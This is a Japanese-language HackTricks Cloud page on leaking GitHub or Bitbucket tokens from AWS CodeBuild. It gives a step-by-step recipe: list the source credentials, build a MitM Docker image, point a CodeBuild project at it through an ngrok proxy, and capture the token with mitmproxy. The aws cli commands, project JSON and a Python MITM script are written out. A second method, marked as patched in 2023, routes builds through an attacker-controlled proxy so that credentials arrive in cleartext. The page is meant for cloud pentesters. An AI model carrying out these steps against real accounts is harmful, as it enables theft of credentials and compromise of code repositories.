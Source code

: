 # AWS Codebuild - トークンリーク

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Github/Bitbucketに設定されたトークンの回復

まず、リークする可能性のある設定済みのソースクレデンシャルがあるかどうかを確認します：
```bash
aws codebuild list-source-credentials
```
### Dockerイメージ経由

例えばGithubへの認証がアカウントで設定されていることがわかった場合、特定のDockerイメージを使用してプロジェクトのビルドを実行するようにCodebuildに指示することで、そのアクセス（**GHトークンまたはOAuthトークン**）を**抜き取る**ことができます。

この目的のために、新しいCodebuildプロジェクトを**作成する**か、既存のプロジェクトの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは非常に基本的なDockerイメージで、**環境変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定します。これにより、**`https_proxy`**と**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼することができます。

1. **独自のDocker MitMイメージを作成・アップロードする**
* リポジトリの指示に従ってプロキシIPアドレスを設定し、SSL証明書を設定して**dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`**を設定**しないでください**。
* プロキシをホストに設定するために**`ngrok`**を使用できます（例：`ngrok tcp 4444`）。
* Dockerイメージをビルドしたら、**パブリックリポジトリにアップロード**します（Dockerhub、ECR...）。
2. **環境を設定する**

* 新しいCodebuildプロジェクトを**作成する**か、既存のプロジェクトの環境を**変更**します。
* プロジェクトが**以前に生成されたDockerイメージ**を使用するように設定します。
*

```
<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
```
3. **ホストでMitMプロキシを設定する**
* **Githubリポジトリ**で示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **ビルドを実行し、クレデンシャルをキャプチャする**

*   **Authorization** ヘッダーでトークンを確認できます：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

これは aws cli を使用して以下のように行うこともできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性はAWSによって2023年2月20日の週のいつか（金曜日だと思います）に修正されました。そのため、攻撃者はこれを悪用できなくなりました :)**
{% endhint %}

攻撃者は、**CodeBuild内で昇格した権限を持っている場合、設定されているGithub/Bitbucketトークンを漏洩させる**ことができます。また、OAuthを介して権限が設定されている場合は、**コードにアクセスするために使用される一時的なOAuthトークンを漏洩させる**ことができます。

* 攻撃者は、環境変数**http\_proxy**と**https\_proxy**をCodeBuildプロジェクトに追加し、自分のマシンを指すように設定することができます（例：`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSではなくHTTPを使用するように変更します。例えば：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* そして、プロキシ変数（http\_proxyとhttps\_proxy）によって指されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)からの基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトのビルド**をクリックすると、**認証情報**がクリアテキスト（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これで攻撃者はトークンを自分のマシンから使用し、持っている権限をすべてリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）利用できるようになります。
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>
